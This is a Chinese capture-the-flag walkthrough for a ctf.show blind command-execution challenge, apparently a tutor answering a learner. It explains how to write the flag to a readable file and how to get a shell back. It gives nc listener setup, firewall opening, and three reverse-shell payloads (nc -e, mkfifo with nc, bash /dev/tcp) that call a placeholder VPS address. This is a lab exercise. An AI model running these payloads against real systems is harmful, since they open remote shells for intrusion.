

进入题目页面，感觉可以直接执行shell命令？

试了几个命令，只能看出成功，看不到结果

现在的问题是，怎么执行命令将里面的结果返回呢？

用【无回显写文件】方法就能拿 flag，之前给你的方案 B：

```
cat flag.php > out.txt
```

执行成功后浏览器访问：

```
https://08677909-e422-4710-bc3e-33a4979837a6.challenge.ctf.show/out.txt
```


# 更普遍性的做法：需要VPS，公网的机器
## 第 0 步：VPS 上先放行端口（重中之重，90% 失败都栽在这里）

1. 登录你云服务商控制台（腾讯云 / 阿里云…）→【安全组】
2. **入站规则新增放行端口：9999，TCP 协议，来源 0.0.0.0/0**

> 
> 不放行端口，靶机永远连不过来！

然后登录 VPS 的终端（SSH），关闭系统防火墙（可选，防止拦截）

```
# centos
systemctl stop firewalld
# ubuntu/debian
ufw allow 9999
```

## 步骤 1：VPS 开启监听（等着靶场主动连过来）

在 VPS 终端输入这条命令，**保持窗口不要关掉，不要回车别的东西**

```
nc -lvnp 9999
```

参数解释

- `-l`：监听模式
- `-v`：打印详细日志
- `-n`：不解析域名
- `-p 9999`：监听 9999 端口

成功之后输出类似：

```
listening on [any] 9999 ...
```

> 
> 这个终端现在就卡住等待连接，**新开一个浏览器标签页去访问靶场网站**

## 步骤 2：靶场网页输入反弹 Payload

回到你的靶场页面：
`https://08677909-e422-4710-bc3e-33a4979837a6.challenge.ctf.show/`
在输入框填入下面 payload

> 
> ⚠️把 `120.xx.xx.xx` **完整替换成你 VPS 的公网 IP**，端口和监听保持一致 9999

```
nc -e /bin/sh 120.xx.xx.xx 9999
```

点击 `Execute Code`

> 
> 页面返回 `execute success!` 只是说明命令被执行了，**网页不会给你 shell，shell 跑到你 VPS 监听窗口**

## 步骤 3：切回 VPS nc 窗口，看是否成功建立连接

如果成功，你马上就会看到：

```
connect to [120.xx.xx.xx] from (UNKNOWN) [shturl.cc/oTfY8] 54321
```

此时你已经拿到靶机 shell，直接输入命令：

```
pwd
ls
cat flag.php
```

# 如果 nc -e 反弹失败！（-e 参数很多精简版 nc 不支持）

nc 缺少 - e 参数是高频坑，换**mkfifo 管道反弹 payload**，这条不需要 - e，兼容性最强

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 120.xx.xx.xx 9999 >/tmp/f
```

同样替换 IP 和端口，粘贴到靶场执行，VPS 还是 `nc -lvnp 9999` 监听不变。

# 备选方案：bash /dev/tcp 反弹

```
bash -c 'bash -i >& /dev/tcp/120.xx.xx.xx/9999 0>&1'
```